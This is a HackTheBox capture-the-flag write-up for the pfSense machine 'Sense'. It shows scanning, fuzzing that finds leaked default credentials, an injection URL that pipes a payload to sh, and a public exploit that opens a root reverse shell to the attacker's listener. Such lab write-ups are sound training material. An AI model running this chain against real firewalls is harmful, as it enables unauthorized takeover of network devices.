


# Sense

```
kali@kali:~/htb/Sense$ sudo nmap -sV -sC 10.129.88.79 
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-27 11:07 EST
Nmap scan report for 10.129.88.79
Host is up (0.030s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.129.88.79/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.93 seconds
kali@kali:~/htb/Sense$ 
```

The webpage is a login page:



I try fuzzing for directories:

```
kali@kali:~/htb/Sense$ sudo wfuzz -c --hc=404,301 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.88.79/FUZZ
```

Filtering out 404 and 301 requests. As I received thousands of 301 requests when I ran without it. I also tried with php extensions but nothing.

I also ran all nmap vuln scripts:


```
kali@kali:~/htb/Sense$ sudo nmap -script vuln -p80,443 10.129.88.79
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-27 11:16 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.129.88.79
Host is up (0.030s latency).

PORT    STATE SERVICE
80/tcp  open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
443/tcp open  https
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
| ssl-ccs-injection: 
|   VULNERABLE:
|   SSL/TLS MITM vulnerability (CCS Injection)
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
|       does not properly restrict processing of ChangeCipherSpec messages,
|       which allows man-in-the-middle attackers to trigger use of a zero
|       length master key in certain OpenSSL-to-OpenSSL communications, and
|       consequently hijack sessions or obtain sensitive information, via
|       a crafted TLS handshake, aka the "CCS Injection" vulnerability.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140605.txt
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0224
|_      http://www.cvedetails.com/cve/2014-0224
| ssl-dh-params: 
|   VULNERABLE:
|   Diffie-Hellman Key Exchange Insufficient Group Strength
|     State: VULNERABLE
|       Transport Layer Security (TLS) services that use Diffie-Hellman groups
|       of insufficient strength, especially those using one of a few commonly
|       shared groups, may be susceptible to passive eavesdropping attacks.
|     Check results:
|       WEAK DH GROUP 1
|             Cipher Suite: TLS_DHE_RSA_WITH_CAMELLIA_256_CBC_SHA
|             Modulus Type: Non-safe prime
|             Modulus Source: RFC5114/1024-bit DSA group with 160-bit prime order subgroup
|             Modulus Length: 1024
|             Generator Length: 1024
|             Public Key Length: 1024
|     References:
|_      https://weakdh.org
| ssl-poodle: 
|   VULNERABLE:
|   SSL POODLE information leak
|     State: VULNERABLE
|     IDs:  CVE:CVE-2014-3566  BID:70574
|           The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
|           products, uses nondeterministic CBC padding, which makes it easier
|           for man-in-the-middle attackers to obtain cleartext data via a
|           padding-oracle attack, aka the "POODLE" issue.
|     Disclosure date: 2014-10-14
|     Check results:
|       TLS_DHE_RSA_WITH_CAMELLIA_256_CBC_SHA
|     References:
|       https://www.imperialviolet.org/2014/10/14/poodle.html
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
|       https://www.securityfocus.com/bid/70574
|_      https://www.openssl.org/~bodo/ssl-poodle.pdf
|_sslv2-drown: 

Nmap done: 1 IP address (1 host up) scanned in 106.40 seconds
```

I look at the source code for the login page and find that it’s a pfsense router. And the login page seems to be dictated by js code. There may be some reversing possibilities here. 

But first I'm gonna try the default pfsense user:pass combination, which is admin:pfsense. And it did not work.


I do a quick searchsploit search:

```
kali@kali:~/htb/Sense$ searchsploit pfsense
-------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                    |  Path
-------------------------------------------------------------------------------------------------- ---------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                                | hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                                      | hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                                  | hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                                              | hardware/remote/35070.txt
pfSense - (Authenticated) Group Member Remote Command Execution (Metasploit)                      | unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                      | php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution      | php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                                             | php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                                            | php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                                               | php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                                               | php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                                 | php/webapps/41501.txt
Pfsense 2.3.4 / 2.4.4-p3 - Remote Code Injection                                                  | php/webapps/47413.py
pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)                   | php/remote/43341.rb
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persistent Cross-Site Scripting                      | php/webapps/46538.txt
pfSense 2.4.4-p1 - Cross-Site Scripting                                                           | multiple/webapps/46316.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent Cross-Site Scripting                         | php/webapps/46936.txt
pfSense 2.4.4-P3 - 'User Manager' Persistent Cross-Site Scripting                                 | freebsd/webapps/48300.txt
pfSense 2.4.4-p3 - Cross-Site Request Forgery                                                     | php/webapps/48714.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                    | php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                        | php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                                   | php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                      | php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                                 | freebsd/webapps/24439.txt
-------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:~/htb/Sense$ 
```

And there are a lot here, but I have no idea what version of pfsense I’m up against. I think I need to find something else. So as I did on Shocker, I’m going to fuzz with extensions now as well:


```
kali@kali:~/htb/Sense$ sudo wfuzz -c --hc=404,301,403 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w /home/kali/htb/Shocker/extensions.txt http://10.129.88.79/FUZZ.FUZ2Z
```

If this does not work. I’ll try adding on -L which follows redirects as well. Maybe check some of the 403 results further. I also try to cut down on the size of the wordlist. As if I let it be as is. There will be more than 6 million requests. And I know my Vm will probably freeze when we reach the higher numbers.

So. I notice that the index does not start with a capital I. but rather all lower-case. Hopefully we can remove any duplicates involving capital letters. We can do this with `grep -Ev '^([A-Z]|.$)'`

Then I also want to select just a few extensions. We know that the index uses php, and according to https://docs.netgate.com/pfsense/en/latest/development/additional-php-modules.html There’s a high likelihood we are only dealing with php when it comes to extensions with code possibilities. So that means no aspx, asp etc. And I already checked for php. So I think I’m only gonna look for .txt and .sh. Which I may as well do manually. Let’s try Text first.


```
kali@kali:~/htb/Sense$ sudo wfuzz -c -L --hc=404,403,301 -w nocaps.txt http://10.129.88.79/FUZZ.txt
[sudo] password for kali: 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.88.79/FUZZ.txt
Total requests: 194797

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                            
===================================================================

000000001:   200        173 L    425 W    6690 Ch     "# directory-list-2.3-medium.txt"                                  
000000003:   200        173 L    425 W    6690 Ch     "# This work is licensed under the Creative Commons"               
000000007:   200        173 L    425 W    6690 Ch     "# Suite 300, San Francisco, California, 94105, USA."              
000000009:   200        173 L    425 W    6690 Ch     "# on atleast 2 different hosts"                                   
000000006:   200        173 L    425 W    6690 Ch     "# or send a letter to Creative Commons, 171 Second Street,"       
000000008:   200        173 L    425 W    6690 Ch     "# Priority ordered case sensative list, where entries were found" 
000000005:   200        173 L    425 W    6690 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"  
000000002:   200        173 L    425 W    6690 Ch     "# Copyright 2007 James Fisher"                                    
000000004:   200        173 L    425 W    6690 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"    
000001148:   200        9 L      40 W     271 Ch      "changelog"                                                        
000106455:   200        6 L      12 W     106 Ch      "system-users"  
```

It finds changelog.txt Which states:

```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

So there's clearly some vulnerability here. 

And it also finds system-users.txt:

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

Ok. so we got a user Rohit, and we know from the previous check that the defalut password is pfsense.



We get the version 2.1.3. 

If we look back to the searchsploit now, we have this:

```
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                    | php/webapps/43560.py
```
So let’s see what it is.

```
kali@kali:~/htb/Sense$ searchsploit -x 43560
'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''
```

Awesome, let’s download it and see if it works:

```
kali@kali:~/htb/Sense$ searchsploit -m 43560
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/htb/Sense/43560.py


kali@kali:~/htb/Sense$ python3 43560.py --rhost=10.129.88.79 --lhost=10.10.14.21 --lport=1337 --username=rohit --password=pfsense 
CSRF token obtained                                                                                                                 
Running exploit...                                                                                                                  
Exploit completed                                                                                                                   
kali@kali:~/htb/Sense$  
```

And on the listener:

```
kali@kali:~/htb/Sense$ sudo rlwrap nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.88.79 57651
sh: can't access tty; job control turned off
# whoami
root
# 
```

Excellent!

But I also want to do a detailed examination of the exploit more info here https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/:

The exploit uses our login info to inject code here:

`https://10.129.88.79/status_rrd_graph_img.php?database=queues;printf+’payload’|sh`
The payload is a python reverse shell encoded in octal. 

So the input for the database query is not sanitized. And allows us to execute code after escaping the query.


## Comparing myself to the official writeup:

The official writeup found both text files via dirbuster. Although I have no idea how long it took or what wordlist they used.

The POC exploit they found was not stable, and so they had to manually create a GET request with encoded payload.


## How to stop this exploit:

Update pfsense to the latest release. Don’t have user credentials in plaintext. And especially not publicly accessible. 
